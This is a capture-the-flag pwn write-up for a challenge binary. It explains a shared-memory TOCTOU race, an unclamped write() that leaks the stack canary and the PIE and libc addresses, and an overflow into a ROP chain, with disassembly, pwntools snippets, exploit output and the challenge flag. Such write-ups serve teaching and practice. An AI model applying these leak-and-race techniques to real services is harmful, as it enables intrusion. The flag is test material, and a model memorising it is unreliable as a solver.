

# Being Chalant Is Cool

- Category: pwn

"Everyone wants to be nonchalant until the same file changes underneath them. Pay attention unc. Can you make the record change at exactly the wrong moment?"

The best-protected binary of the set — Full RELRO, stack canary, NX and PIE — and the only one where none of that is the obstacle. The record being validated lives in a `MAP_SHARED` file, so a second connection can change it between the check and the use.

### Solution:

##### 1. `OPEN` maps a shared file

The four commands are `OPEN <token>`, `POKE <off> <hex>`, `PEEK`, `RENDER`. `OPEN` sanitises the token to at most 16 alphanumeric characters, appends it to `/dev/shm/bc_`, and maps the result:

```asm
0000172f:  mov    edx,0x180                 ; 0600
00001734:  mov    esi,0x42                  ; O_RDWR|O_CREAT
0000173e:  call   0x11e0                    ; open
00001759:  cmp    qword ptr [rsp + 0x40],0xfff
0000176b:  call   0x1180                    ; ftruncate(fd, 0x1000)
0000177d:  mov    ecx,0x1                   ; MAP_SHARED
00001782:  mov    edx,0x3                   ; PROT_READ|PROT_WRITE
00001787:  mov    esi,0x1000
00001791:  call   0x1170                    ; mmap
```

`MAP_SHARED` on a path derived only from a user-supplied token is the whole challenge in one line: any two connections that `OPEN` the same token are writing to the same physical pages. The record header is `magic "SHFT"` at `+0x00`, a `u32` length at `+0x08`, and the record body at `+0x10`.



##### 2. `PEEK` clamps the copy but not the echo

`sub_155c` is careful exactly once:

```asm
0000157e:  mov    ebx,dword ptr [rsi + 0x8]  ; len, straight from the mapping
00001581:  mov    edx,0x40
00001586:  cmp    ebx,edx
00001588:  cmovbe edx,ebx                   ; edx = min(len, 0x40)
0000159c:  call   0x11c0                    ; __memcpy_chk(buf, rec+0x10, edx, 0x40)
000015a1:  mov    edx,ebx                   ; ...but the echo uses the RAW len
000015ab:  call   0x1140                    ; write(1, buf, len)
```

The `__memcpy_chk` is clamped and would abort anyway. The `write` two instructions later is handed the unclamped `u32`. Since the length lives in a file we can `POKE`, `PEEK` becomes an arbitrary-length stack dump from a 64-byte buffer.

`sub_155c` pushes `rbp` and `rbx` then subtracts `0x58`, so relative to the buffer at `rsp`:

| offset | contents |
|---|---|
| `0x48` | stack canary |
| `0x68` | return address into `main` -> PIE base |
| `0x338` | `__libc_start_main+0x80` -> libc base |

The first two follow from the prologue. The third was found by dumping `0x600` bytes and diffing the pointer-shaped qwords against `/proc/<pid>/maps` — the frames between `sub_155c` and `__libc_start_main` are fixed-size, so the offset is stable across runs even though the absolute address is not. Verified across three runs before relying on it:

```
libc=0x7f1225e00000  +0x298 off=0x29d90  +0x338 off=0x29e40  canary=0x3d673e2e17ae2b00
libc=0x7f4ab3200000  +0x298 off=0x29d90  +0x338 off=0x29e40  canary=0x82f2c6302f12f800
libc=0x7f42aae00000  +0x298 off=0x29d90  +0x338 off=0x29e40  canary=0x8d9ba0cbecd35900
```

One run artefact worth naming: launching a PIE binary through `./ld-linux-x86-64.so.2` maps it in the `0x7f...` mmap region rather than the usual `0x55...`, so the PIE return address looks like a libc pointer at a glance. Subtracting the known call site (`0x18e5`) is what identifies it, not the shape of the address.

##### 3. `RENDER` validates, then blocks, then re-reads

`sub_147d` is the TOCTOU:

```asm
00001492:  mov    rbx,qword ptr [0x4028]     ; rbx = the mapping
00001499:  mov    eax,dword ptr [rbx + 0x8]
0000149c:  cmp    eax,0x40
0000149f:  ja     0x1527                     ; TIME OF CHECK: len <= 0x40
000014ac:  call   0x1435                     ; "[*] validated; send GO to render"
000014bb:  call   0x13a0                     ; <-- BLOCKS reading a line
000014d5:  call   0x1130                     ; strncmp(line, "GO", 2)
000014de:  mov    edx,dword ptr [rbx + 0x8]  ; TIME OF USE: len read AGAIN
000014ee:  lea    rbx,[rsp + 0x10]
000014f6:  call   0x1309                     ; byte-by-byte copy into a 0x60 frame
```

The length is read twice from shared memory with a blocking read between them, and the copy at `0x1309` is hand-rolled — no `__memcpy_chk`, so FORTIFY never sees it.

This is a race only in name. The program parks itself on the `GO` prompt and waits, so the window is held open for as long as we like: connection A reaches the prompt, connection B rewrites the length, then A is allowed to proceed. No timing luck is involved.

With `SUB RSP,0x60` after a `push rbx`, relative to the copy destination at `rsp+0x10`: canary at `0x48`, saved `rbx` at `0x50`, return address at `0x58`.

```python
poke(io_a, 0x10, payload)            # ROP chain into the record body
poke(io_a, 8, p32(0x20))             # small enough to pass the check
cmd(io_a, b"RENDER")
io_a.recvuntil(b"send GO to render\n")   # A is now parked

cmd(io_b, b"OPEN " + TOKEN)          # same file, same pages
poke(io_b, 8, p32(len(payload)))     # 120 bytes

io_a.sendline(b"GO")                 # A copies 120 bytes into a 0x60 frame
```

##### 4. The bug that only showed up remotely

The above worked locally on the first try and failed against the live instance — it printed the receipt and returned to the prompt normally, which is what a *non*-overflowing copy looks like. The obvious suspect was per-connection isolation, so that got tested directly before touching the exploit:

```
A: OPEN sharetest ; POKE 0x10 4142434445464748 ; POKE 8 08000000 ; PEEK  ->  b'ABCDEFGH'
B: OPEN sharetest ;                              PEEK                ->  b'ABCDEFGH'
```

Shared, and B even inherits the length A set. So the fault was mine: `poke()` was `sendline`-ing B's write and moving straight on to A's `GO` without waiting for the service to *process* it. Locally the two processes interleave fast enough to hide that; over the network A's `GO` frequently won, A re-read the old length, and 32 harmless bytes got copied.

The fix is to make the ordering explicit rather than probabilistic — read back the `[*] ok` that acknowledges each `POKE`:

```python
def poke(io, off, data):
    for i in range(0, len(data), 64):
        cmd(io, b"POKE 0x%x %s" % (off + i, data[i:i + 64].hex().encode()))
        io.recvuntil(b"[*] ok")     # the write has LANDED, not merely been sent
```

That is the difference between a TOCTOU you win reliably and one you win locally.

```
[+] canary    = 0xd4d875ee1c120100
[+] PIE base  = 0x5853ab22f000
[+] libc base = 0x7c528c2f9000
[*] A parked on the GO read - check has passed
[*] B flipped length to 120 underneath A
[+] overflowed - returning into ROP chain
sunctf26{p4y_4tt3nt10n_wh3n_th3_l3dg3r_sh1fts_b3n34th_y0u}
```

Full script: [solve.py](solve.py)

**Flag:** `sunctf26{p4y_4tt3nt10n_wh3n_th3_l3dg3r_sh1fts_b3n34th_y0u}`

### Takeaways

- Full RELRO, canary, NX and PIE are all irrelevant to a bug in *data* rather than control flow. Reading `checksec` first and picking a technique to match it leads away from this challenge; enumerating what the ops let you do leads straight to it.
- `MAP_SHARED` on a user-influenced path is a shared-memory channel between connections, and validation of anything in that mapping is provisional. Look for a value read twice with any blocking call between the reads.
- A TOCTOU with a blocking prompt inside the window is not a timing race — the program holds the door open. Treat "make the record change at exactly the wrong moment" as an ordering problem, not a speed problem.
- Over a socket, `sendline` means "queued", not "applied". Any multi-connection exploit whose steps must interleave in a specific order has to wait on the *response* that proves each step took effect; the local run will not expose the difference.
- A clamped `memcpy` next to an unclamped `write` of the same length is worth grepping for specifically. The dangerous call is the one that looks safe because its neighbour is.
